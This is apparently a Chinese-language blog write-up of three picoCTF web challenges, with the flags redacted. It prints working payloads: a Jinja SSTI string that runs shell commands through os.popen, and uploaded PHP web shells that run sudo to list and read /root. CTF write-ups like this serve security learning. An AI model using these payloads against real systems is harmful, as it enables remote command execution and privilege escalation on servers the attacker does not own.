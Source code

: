 ```yaml
---
title: 'PicoCTF Web Exploitation 解題紀錄'
published: 2025-04-19
lastUpdated: '2025-04-20 04:00'
description: '紀錄一點web解題'
image: ''
tags: [PicoCTF, Web Exploitation, CTF, 網路安全]
category: '資安'
draft: false
lang: ''
---
```

# Introduction
這是拿來放一些解題ㄉ紀錄，慢慢邊做邊寫，因為我好久沒碰了
有些有有些沒有是因為有些我已經解過ㄌ，我也懶得再解一次


## SSTI1
首先你會看到一個酷酷的網站，有一個輸入框，你會發現不論輸入啥他都會顯示在頁面上，我們可以試試看輸入```{{7*7}}```  會得到什麼
<img src="https://i.imgur.com/mbFg62p.png" width="300" height="200" />
沒錯!一個大大的49，這就是一個SSTI的漏洞，這個漏洞可以讓我們執行python的程式碼，接下來我們可以試試看```{{7*7*7*7}}``` 會得到什麼
![image](https://i.imgur.com/WgLYlaS.png)
這時我們已經確定這是一個SSTI的漏洞了，接下來我們可以來點更有趣的東西，他可以執行python的程式碼，因此應該可以執行一些系統命令
```python
{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
```
![1745082641462](images/1745082641462.png)
這段程式碼大概的意思是
- ```request.application```: 訪問當前Web請求的應用

- ```__globals__```: 訪問全局命名空間，允許獲取內建函式

- ```__import__('os')```: 動態導入 os 模塊，這樣就可以使用操作系統相關功能

- ```popen('id')```: 執行系統命令 id，該命令顯示當前用戶的身份

- ```read()```: 讀取命令的輸出結果  
那我們可以把命令改成，ls來看看有沒有什麼驚喜，聽話讓我看看!
```python
{{request.application.__globals__.__builtins__.__import__('os').popen('ls').read()}}
```
![1745083019268](images/1745083019268.png)
最後只要試試看
```
python
{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}
```
我們就會得到flag了!  
picoCTF{||幹嘛，你要自己去試試看阿!還想偷看阿hhhhhhhhhhhhhhh||}  




## Cookie Monster Secret Recipe
首先我們看到網站，並且檢查F12->儲存空間->Cookies看看裡面有沒有東西，啥都沒有  
![cXhhshj.png](https://i.imgur.com/cXhhshj.png)
我們可以嘗試登入一下，帳號密碼隨意，哎呀看起來有問題
![image](https://i.imgur.com/xc9JLcK.png)
我們可以再看一次Cookies，看看有沒有東西
看起來有東西出現!
![image](https://i.imgur.com/41r84nI.png)
看起來長得有點像是base64編碼的東西，我們可以試試看丟到解碼的網站看看
得到答案啦!
![image](https://i.imgur.com/CuDY1CK.png)
- FLAG
  - ||picoCTF{自己去試試看啦hahahahahahahahha}||


## n0s4n1ty 1
首先我們看到網站可以上傳檔案，先上傳看看一個php檔案看看譨不能傳PNG以外的東西
提示中說要重點針對```sudo -l```，那我們就嘗試在php中執行看看
```php
<?php echo exec('sudo -l');?>
```
上傳之後顯示，讓我們去看看```uploads/owo.php```有甚麼東西
```
The file owo.php has been uploaded Path: uploads/owo.php 
```
![image](https://i.imgur.com/gFTXjB4.png)
既然可以執行指令那我們就可以嘗試看看root資料夾下面有沒有什麼驚喜
```php
<?php echo exec('sudo ls -al /root ');?>
```
再次訪問網站並且去到```uploads/owo.php```會顯示
```bash
-rw-r--r-- 1 root root 36 Mar 6 03:56 flag.txt
```
那我們可以喵喵一下把檔案內容顯示出來!
```php
<?php echo exec('sudo cat /root/flag.txt');?>
```
哎呀又找到ㄌ
- FLAG
  - picoCTF{||aaaaaaaaaaa自己去試試看啦||}

